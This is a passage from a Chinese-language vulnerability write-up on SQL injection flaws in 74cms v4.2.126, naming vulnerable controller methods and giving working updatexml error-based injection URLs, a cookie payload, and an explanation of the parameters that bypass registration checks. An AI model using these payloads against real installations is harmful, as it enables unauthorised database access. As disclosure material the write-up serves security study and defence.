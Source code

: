 打开文件：
74cms\\upload\\Application\\Common\\Model\\PersonalFocusCompanyModel.class.php方法：add\_focus(

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId49.png)

0x06 74cms独有框架漏洞第二处
----------------------------

文件：74cms\\upload\\Application\\Home\\Controller\\CompanyServiceController.class.php方法：order\_pay\_finish(是否需登录：需要登录权限：企业用户即可看源码

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId51.png)

为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId52.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId53.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId54.png)

注册完成以后登录前台即可

    url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId55.png)

0x07 74cms独有框架漏洞第三处
----------------------------

文件：74cms\\upload\\Application\\Home\\Controller\\MembersController.class.php方法：register(是否需登录：不需要

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId57.png)

    url: 
    http://74cms.test/index.php?m=&c=Members&a=register
    post: 
    reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

    cookie:
    members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;

    headers:
      Content-Type: application/x-www-form-urlencoded
      X-Requested-With: XMLHttpRequest

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-前台四处sql注入/media/rId58.png)

    这里我要大概讲一下参数的问题
    post: 
    reg_type=2            // 必须为2 为了绕过一个注册判断，为1的话，会直接创建帐户，导致无法利用漏洞
    utype=2         // 判断会员类型的也必须为2 为1会直接创建一条数据，导致无法利用漏洞      
    ucenter=bind           // 必须为bind因为要靠他，获取cookie(members_uc_info)并且合并为$data数组进行利用
      unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的
